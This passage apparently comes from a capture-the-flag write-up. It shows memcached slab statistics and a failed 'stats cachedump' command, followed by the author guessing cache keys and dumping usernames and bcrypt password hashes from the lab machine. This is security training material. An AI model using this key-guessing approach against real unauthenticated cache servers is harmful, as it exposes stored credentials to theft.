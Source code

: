 ```text
                         '3:incr_hits': b'0',
                         '3:total_chunks': b'6898',
                         '3:total_pages': b'1',
                         '3:touch_hits': b'0',
                         '3:used_chunks': b'1',
                         '5:cas_badval': b'0',
                         '5:cas_hits': b'0',
                         '5:chunk_size': b'240',
                         '5:chunks_per_page': b'4369',
                         '5:cmd_set': b'132',
                         '5:decr_hits': b'0',
                         '5:delete_hits': b'0',
                         '5:free_chunks': b'4368',
                         '5:free_chunks_end': b'0',
                         '5:get_hits': b'0',
                         '5:incr_hits': b'0',
                         '5:total_chunks': b'4369',
                         '5:total_pages': b'1',
                         '5:touch_hits': b'0',
                         '5:used_chunks': b'1',
                         '6:cas_badval': b'0',
                         '6:cas_hits': b'0',
                         '6:chunk_size': b'304',
                         '6:chunks_per_page': b'3449',
                         '6:cmd_set': b'132',
                         '6:decr_hits': b'0',
                         '6:delete_hits': b'0',
                         '6:free_chunks': b'3448',
                         '6:free_chunks_end': b'0',
                         '6:get_hits': b'0',
                         '6:incr_hits': b'0',
                         '6:total_chunks': b'3449',
                         '6:total_pages': b'1',
                         '6:touch_hits': b'0',
                         '6:used_chunks': b'1',
                         'active_slabs': b'4',
                         'total_malloced': b'4194304'}}
([B]memcached) stats cachedump 1 1000
Traceback (most recent call last):
  File "/home/zweilos/.local/lib/python3.8/site-packages/bmemcachedcli/main.py", line 79, in handler
    pprint.pprint(getattr(self.memcache, name)(*parts))
TypeError: stats() takes from 1 to 2 positional arguments but 4 were given
```

4 active slabs, however `stats cachedump` caused the program to crash, and I didn't find much that looked useful using the other methods I knew, so I tried to guess possible keys.  

```text
([B]memcached) get users
None
([B]memcached) get usernames
None
([B]memcached) get username
'MinatoTW\nfelamos\nyuntao\n'
([B]memcached) get password
('$2a$10$5SAkMNF9fPNamlpWr.ikte0rHInGcU54tvazErpuwGPFePuI1DCJa\n'
 '$2y$12$c3SrJLybUEOYmpu1RVrJZuPyzE5sxGeM0ZChDhl8MlczVrxiA3pQK\n'
 '$2a$10$zXNCus.UXtiuJE5e6lsQGefnAH3zipl.FRNySz5C4RjitiwUoalS\n')
([B]memcached)
```
